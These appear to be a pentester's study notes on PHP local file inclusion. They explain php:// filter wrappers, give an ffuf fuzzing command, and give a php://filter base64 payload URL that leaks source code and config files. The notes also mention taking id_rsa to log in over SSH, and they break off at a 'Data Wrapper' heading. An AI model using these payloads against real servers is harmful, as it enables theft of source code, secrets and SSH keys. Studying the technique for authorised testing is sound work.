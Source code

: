 ## PHP Filters

- identify an LFI vulnerability in PHP web applications (utilize different [PHP Wrappers](https://www.php.net/manual/en/wrappers.php.php))


### Input Filters
-  `php://filter/` scheme lets you apply filters directly to the data you read
	- parameters
		1) resource =>Specifies the source of the data
		2) read => Specifies which filter
#### Types of Filters

- **String Filters**: Modify strings (e.g., `string.strip_tags` removes HTML tags).
- **Conversion Filters**: Change data format (e.g., `convert.base64-encode`).
- **Compression Filters**: Compress or decompress data (e.g., `zlib.deflate`).
- **Encryption Filters**: Encrypt or decrypt data (e.g., `mcrypt.*`).


##### ==Usage==

- find lfi 
- fuzz of php files
- get source code using php wrapper

### Fuzzing for PHP Files

```shell
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
```

### Source Code Disclosure

```url
php://filter/read=convert.base64-encode/resource=<phpfilename>
```


##### Payload

```url
http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=config
```


# Remote Code Execution

## PHP Wrappers

 - get id_rsa using php filter and use ssh to login

### Data Wrapper
